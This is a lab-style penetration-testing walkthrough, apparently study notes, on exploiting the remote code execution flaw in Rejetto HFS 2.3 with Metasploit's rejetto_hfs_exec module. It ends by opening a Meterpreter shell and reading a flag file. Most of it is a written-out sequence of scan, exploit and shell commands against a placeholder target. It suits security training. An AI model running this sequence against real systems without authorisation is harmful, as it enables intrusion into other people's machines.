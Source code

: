 # Exploiting Windows

## Exploiting a Vulnerable HTTP File Server (HFS)

### Overview

- **HTTP File Server (HFS)**: A web server designed for file and document sharing.
- **Communication**: Typically runs on **TCP port 80** and uses the **HTTP protocol**.
- **Rejetto HFS**: A free, open-source HTTP file server for both **Windows** and **Linux**.
- **Vulnerability**: Version 2.3 of Rejetto HFS is vulnerable to **Remote Code Execution (RCE)**.
- **Exploit Module**: Metasploit (MSF) provides an exploit module to target this vulnerability and gain access to the system running HFS.

### Demo: Exploiting a Vulnerable HTTP File Server

Start the Metasploit service and PostgreSQL database:

```bash
service postgresql start && msfconsole
```

Verify the database connection:

```bash
db_status
```

Create a new workspace for organizing the attack:

```bash
workspace -a HFS
```

Set the target IP address globally:

```bash
setg rhosts [targetIP]
```

We perform an Nmap scan, identifying open ports, services, and the operating system. The scan results are stored directly in the Metasploit database:

```bash
db_nmap -sS -sV -O [targetIP]
```

We search for the **Rejetto HFS** exploit module in Metasploit:

```bash
search type:exploit name:rejetto
```

We use the exploit module for the Rejetto HFS vulnerability:

```bash
use exploit/windows/http/rejetto_hfs_exec
```

Display the options available for this exploit to ensure proper configuration:

```bash
show options
```

Retrieve detailed information about the exploit module:

```bash
info
```

Run the exploit to execute the attack and gain access to the target system:

```bash
run
```

### Post-Exploitation: Meterpreter Session

After a successful exploit, interact with the target system through a Meterpreter session.

Open a shell on the compromised system:

```bash
shell
```

Navigate to the root directory:

```bash
cd /
```

List the contents of the current directory:

```bash
dir
```

Read the content of the flag file:

```bash
type flag.txt
```

### Conclusion

Using Metasploit, we successfully exploited the vulnerable HTTP File Server running on the target system by leveraging the **Rejetto HFS Remote Code Execution exploit**.
